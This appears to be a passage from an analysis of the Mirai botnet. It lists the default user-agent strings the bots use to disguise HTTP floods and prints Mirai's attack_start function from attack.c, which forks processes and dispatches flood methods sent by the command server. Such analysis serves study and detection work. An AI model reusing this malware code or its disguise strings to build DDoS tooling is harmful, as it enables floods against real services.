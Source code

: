 When attacking HTTP floods, Mirai bots hide behind the following default user-agents:

```
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7
```

-----------

Once discovered the targets of the attack and defined the different attack vectors for flooding, the code written in attack.c is responsible for handling the attack request initiated by the CNC server. It parses the shell command provided via the Admin interface, formats & builds the command(s), parses the target(s) (attack_parse function), and sends the command down to the appropriate bots (calling attack_start). 

```
void attack_start(int duration, ATTACK_VECTOR vector, uint8_t targs_len, struct attack_target *targs, uint8_t opts_len, struct attack_option *opts)
{
    int pid1, pid2;

    pid1 = fork();
    if (pid1 == -1 || pid1 > 0)
        return;

    pid2 = fork();
    if (pid2 == -1)
        exit(0);
    else if (pid2 == 0)
    {
        sleep(duration);
        kill(getppid(), 9);
        exit(0);
    }
    else
    {
        int i;

        for (i = 0; i < methods_len; i++)
        {
            if (methods[i]->vector == vector)
            {
#ifdef DEBUG
                printf("[attack] Starting attack...\n");
#endif
                methods[i]->func(targs_len, targs, opts_len, opts);
                break;
            }
        }

        //just bail if the function returns
        exit(0);
    }
}
```
### A Mirai simulation
